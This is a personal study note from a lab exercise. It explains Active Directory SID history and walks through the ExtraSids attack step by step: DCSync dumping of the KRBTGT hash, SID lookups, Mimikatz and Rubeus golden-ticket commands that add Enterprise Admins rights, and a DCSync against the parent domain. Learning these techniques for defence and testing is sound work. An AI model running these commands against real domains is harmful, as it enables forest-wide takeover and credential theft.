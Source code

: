 # SID History Primer
---
- **The [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) attribute is used in migration scenarios**. 
- If a **user in one domain is migrated to another domain**, a new account is created in the second domain. 
- **==The original user's SID will be added to the new user's SID history attribute==**, ensuring that the **user can still access resources in the original domain.**
- SID history is intended to work across domains, but can work in the same domain.
- Using Mimikatz, **an attacker can perform SID history injection** and **==add an administrator account to the SID History attribute of an account they control.==** When **logging in** with this account, **all of the SIDs associated with the account are added to the user's token.**
- If the **SID of a ==Domain Admin account is added to the SID History== attribute of this account**, then this account will be able to **==perform DCSync== and create a [Golden Ticket](https://attack.mitre.org/techniques/T1558/001/) or a Kerberos ticket-granting ticket (TGT)**

# ExtraSids Attack - Mimikatz
---
- This attack **==allows for the compromise of a parent domain once the child domain has been compromised.==**
- Within the same AD forest, **the [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) property is respected** due to a lack of [SID Filtering](https://web.archive.org/web/20220812183844/https://www.serverbrain.org/active-directory-2008/sid-history-and-sid-filtering.html) protection.
- **SID Filtering** is a protection put in place to **filter out authentication requests from a domain in another forest across a trust**.
- Therefore, if a user in a **child domain that has their sidHistory set to the `Enterprise Admins group`** (which **only exists in the parent** domain), they are **treated as a member of this group,** which allows for **==administrative access to the entire forest.==**
- In other words, we are **creating a Golden Ticket from the compromised child domain to compromise the parent domain**.
- In this case, we will leverage the **`SIDHistory` to grant an account (or non-existent account) Enterprise Admin rights** by modifying this **attribute to contain the SID for the Enterprise Admins group.**

- To perform this attack after compromising a child domain, w**e need the following:**
	- The **KRBTGT hash for the child domain**
	- The **SID for the child domain**
	- The **name of a target user in the child domain** (does not need to exist!)
	- The **FQDN of the child domain**.
	- The **SID of the Enterprise Admins group of the root domain**.
	- With this data collected, the attack can be **performed with Mimikatz.**


# Attacking
---
- First, we need to **obtain the NT hash for the [KRBTGT](https://adsecurity.org/?p=483) account of child domain,** which is a **service account for the Key Distribution Center (KDC)** in Active Directory.
- The account **KRB (Kerberos) TGT (Ticket Granting Ticket)** is **used to encrypt/sign all Kerberos tickets** granted within a given domain.
- Since **we have compromised the child domain**, we can **==log in as a Domain Admin or similar and perform the DCSync attack==** to **obtain the ==NT hash for the KRBTGT account.**==
## Obtaining the KRBTGT Account's NT Hash using Mimikatz
- `lsadump::dcsync /user:LOGISTICS\krbtgt`
- ![[Pasted image 20250817050510.png]]

## Using Get-DomainSID
- We can use the **PowerView `Get-DomainSID` function to get the SID for the child domain**, but this is **also visible in the Mimikatz** output above.
	- `Get-DomainSID`
	- ![[Pasted image 20250817050552.png]]

## Obtaining Enterprise Admins Group's SID using Get-DomainGroup
- Next, we can use **`Get-DomainGroup` from PowerView to obtain the SID for the Enterprise Admins group** in the **==parent domain==**
- We could also do this **with the [Get-ADGroup](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps) cmdlet** : `Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"`:

	- `Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid`
	- ![[Pasted image 20250817050736.png]]
- ![[Pasted image 20250817050746.png]]

## Using ls to Confirm No Access
- Before the attack, **we can confirm no access to the file system of the DC in the parent domain.**:
	- ` ls \\academy-ea-dc01.inlanefreight.local\c$`
	- ![[Pasted image 20250817050823.png]]

## Creating a Golden Ticket with Mimikatz:
- `mimikatz.exe`
- `kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt`
- ![[Pasted image 20250817050916.png]]

## Confirming a Kerberos Ticket is in Memory Using klist
- `klist`
- ![[Pasted image 20250817050937.png]]
## Listing the Entire C: Drive of the Domain Controller
- `ls \\academy-ea-dc01.inlanefreight.local\c$`
- ![[Pasted image 20250817051003.png]]

# ExtraSids Attack - Rubeus
- We can also **perform this attack using Rubeus**. 
## Creating a Golden Ticket using Rubeus
- The **`/rc4` flag is the NT hash for the KRBTGT account.** 
- **==The `/sids` flag will tell Rubeus to create our Golden Ticket giving us the same rights as members of the Enterprise Admins group==** **in the parent domain**:
	- `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt`
	- ![[Pasted image 20250817051148.png]]
## Confirming the Ticket is in Memory Using klist:
- `klist`
- ![[Pasted image 20250817051208.png]]
## Performing a DCSync Attack:
- Finally, we can **==test this access by performing a DCSync attack against the parent domain==**, **targeting the `lab_adm` Domain Admin** user:

	- `.\mimikatz.exe`
	- `lsadump::dcsync /user:INLANEFREIGHT\lab_adm`
	- ![[Pasted image 20250817051304.png]]

- When **dealing with multiple domains and our target domain is not the same as the user's domain**, we will need to **==specify the exact domain to perform the DCSync operation==** on the particular domain controller:
	- `lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL`